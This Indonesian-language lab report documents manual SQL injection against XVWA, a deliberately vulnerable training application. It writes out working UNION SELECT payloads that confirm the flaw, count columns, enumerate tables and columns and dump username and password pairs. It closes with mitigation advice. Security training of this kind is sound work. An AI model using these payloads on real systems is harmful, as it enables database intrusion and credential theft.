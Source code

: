 # Laporan Latihan SQL Injection pada XVWA

## 📌 Deskripsi
Latihan ini dilakukan untuk memahami serangan SQL Injection menggunakan manual injection pada aplikasi XVWA (Xtreme Vulnerable Web Application).

## 🔧 Environment Setup
- **Target**: XVWA (Xtreme Vulnerable Web Application)
- **Metode**: Manual SQL Injection
- **Payload yang Digunakan**:
  ```sql
  ' UNION SELECT 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_schema = database() #
  ```
- **Tools**:
  - XVWA di lingkungan **XAMPP/LAMP/WAMP**
  - Browser (Chrome)

## 🎯 Tujuan
1. Mengeksploitasi SQL Injection pada XVWA.
2. Mengambil daftar kolom dalam database saat ini.
3. Memahami struktur database target.

## 🏴 Proses Eksploitasi
1. **Identifikasi Formulir Rentan**
   - Mencari form input yang rentan terhadap SQL Injection.
   - Contoh: **Search Bar** di XVWA.

2. **Pengujian dengan Payload Sederhana**
   - Input awal `' OR '1'='1' #` untuk mengonfirmasi kerentanan.
   - Mengecek jumlah kolom pada database menggunakan `' ORDER BY {index_column} #`.
   - Melakukan UNION SELECT untuk enumerasi lebih lanjut.

3. **Menemukan Nama Database & User Database**
   - Untuk mengetahui nama database yang sedang digunakan:
     ```sql
     ' UNION SELECT 1,database(),3,4,5,6,7 #
     ```
   - Untuk mengetahui user database:
     ```sql
     ' UNION SELECT 1,user(),3,4,5,6,7 #
     ```
   - Output akan menunjukkan nama database dan user yang sedang digunakan oleh aplikasi.

4. **Penggunaan UNION SELECT untuk Enumerasi Kolom**
   - Input eksploitasi:
     ```sql
     ' UNION SELECT 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_schema = database() #
     ```
   - **Hasil Output**: List kolom yang ada dalam database saat ini.

5. **Menemukan Nama Tabel**
   - Untuk mendapatkan daftar tabel dalam database yang sedang digunakan:
     ```sql
     ' UNION SELECT 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema = database() #
     ```
   - Output akan menampilkan daftar tabel yang ada dalam database.

6. **Mengambil Data dari Tabel Sensitif**
   - Setelah menemukan tabel yang relevan (misalnya `users`), data dapat diekstrak dengan query berikut:
     ```sql
     ' UNION SELECT 1,group_concat(username,'::',password,'<br>'),3,4,5,6,7 from users #
     ```
   - **Hasil Output**: Data username dan password dalam format "username::password".

## 🛠 Hasil Uji Coba
Berikut hasil eksekusi payload:
```plaintext
username, password
```
Kolom yang ditemukan menunjukkan struktur tabel yang berisi informasi akun.

## 🏆 Kesimpulan
- Payload berhasil menampilkan daftar kolom dalam database.
- SQL Injection masih menjadi ancaman serius bagi aplikasi yang tidak mengimplementasikan keamanan yang baik.

## 🔐 Rekomendasi Mitigasi
1. Gunakan **Prepared Statements (Parameterized Queries)** untuk mencegah SQL Injection.
2. Batasi hak akses database hanya untuk operasi yang diperlukan.
3. Implementasikan mekanisme **Web Application Firewall (WAF)**.
4. Filter dan validasi input pengguna sebelum diteruskan ke database.
